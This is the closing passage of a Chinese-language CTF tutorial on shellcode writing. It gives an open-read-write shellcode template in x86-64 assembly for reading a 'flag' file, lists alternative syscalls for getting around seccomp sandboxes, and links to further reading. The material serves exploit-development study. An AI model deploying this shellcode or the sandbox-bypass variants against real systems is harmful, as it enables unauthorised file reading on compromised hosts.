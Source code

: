 调用链举例：`open('./flag\x00',0,0)` --> `read(0,adr,len)` --> `write(1,adr,len)`

shellcode 模版：

```plain
shellcode = asm('''
    push 0x67616c66
    mov rdi,rsp
    xor esi,esi
    push 2
    pop rax
    syscall
    mov rdi,rax
    mov rsi,rsp
    mov edx,0x100
    xor eax,eax
    syscall
    mov edi,1
    mov rsi,rsp
    push 1
    pop rax
    syscall
    ''')
```

当然并不是只能用这三个函数来实现任意读写，也可以通过其他替代函数来实现

open（fopen、creat、openat、fopen64、open64、freopen）

read（pread、readv、preadv、splice、sendfile、mmap）

write（pwrite、send、writev）

另外还有一些规定了只能调用其中某两个函数的沙箱，这种类型的 shellcode 可以参考该文章：

[栈沙箱学习之 orw](https://xz.aliyun.com/t/12787?time__1311=mqmhDvrxkG8D%2FD0lD2DUozFq0Q3SGchD&alichlgref=https%3A%2F%2Fxz.aliyun.com%2Fu%2F67773)

## 总结

shellcode 的编写注重对于汇编的理解，非常需要擅长组合搭配的能力，希望这篇文章能够帮到各位师傅加深理解
